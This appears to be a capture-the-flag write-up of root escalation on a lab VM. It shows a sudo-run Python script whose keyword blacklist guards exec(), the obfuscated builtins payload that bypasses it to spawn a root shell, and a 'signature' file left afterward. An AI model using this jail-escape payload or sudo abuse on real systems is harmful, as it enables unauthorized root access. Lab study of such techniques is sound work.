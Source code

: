 1) I see all sudo privilege:
```
kamishiro@vagrant:~$ sudo -l
Matching Defaults entries for kamishiro on vagrant.vm:
    env_reset, exempt_group=sudo, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User kamishiro may run the following commands on vagrant.vm:
    (ALL) /usr/bin/python3 /home/kamishiro/jail.py
```

2) I see the code of /home/kamishiro/jail.py:
```
kamishiro@vagrant:~$ cat /home/kamishiro/jail.py
```
```python
#! /usr/bin/python3
#-*- coding:utf-8 -*-
def main():
    print("Hi! Welcome to my world kaneki")
    print("========================================================================")
    print("What ? You gonna stand like a chicken ? fight me Kaneki")
    text = input('>>> ')
    for keyword in ['eval', 'exec', 'import', 'open', 'os', 'read', 'system', 'write']:
        if keyword in text:
            print("Do you think i will let you do this ??????")
            return;
    else:
        exec(text)
        print('No Kaneki you are so dead')
if __name__ == "__main__":
    main()
```

3) The vulnerability come from the exec() function, to exploit this function I read the documentation from this site "[Escaping Python Jails. Getting user input and executing it is… | by Aneesh Dogra | Aneesh Dogra’s Blog](https://anee.me/escaping-python-jails-849c65cf306e)"
4) Now I spawn the root shell:
```
kamishiro@vagrant:~$ sudo -l
Matching Defaults entries for kamishiro on vagrant.vm:
    env_reset, exempt_group=sudo, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User kamishiro may run the following commands on vagrant.vm:
    (ALL) /usr/bin/python3 /home/kamishiro/jail.py
kamishiro@vagrant:~$ sudo /usr/bin/python3 /home/kamishiro/jail.py
Hi! Welcome to my world kaneki
========================================================================
What ? You gonna stand like a chicken ? fight me Kaneki
>>> __builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('/bin/bash') 
root@vagrant:~# cat /root/root.txt
9d790bb87898ca66f724ab05a9e6000b
```
5) root.txt :
```
9d790bb87898ca66f724ab05a9e6000b
```

---
## Patch the machines vulnerabilities

1) I remove the file that generate the privilege escalation:
```
root@vagrant:~# rm /home/kamishiro/jail.py
```
2) I leave my signature:
```
root@vagrant:~# touch README.txt
root@vagrant:~# echo 'CyberSpider  has been here, Now I am root :)' > README.txt
root@vagrant:~#  cat README.txt
CyberSpider  has been here, Now I am root :)
root@vagrant:~# chmod a=+r-x-w README.txt
root@vagrant:~# ls -all
total 20
drwxr-xr-x 2 root root 4096 Feb 14 21:46 .
drwxr-xr-x 4 root root 4096 Jan 23  2021 ..
-rw------- 1 root root   18 Feb 14 21:34 .bash_history
-r--r--r-- 1 root root   45 Feb 14 21:46 README.txt
-rw-r--r-- 1 root root   33 Jan 23  2021 user.txt
root@vagrant:~# 
```
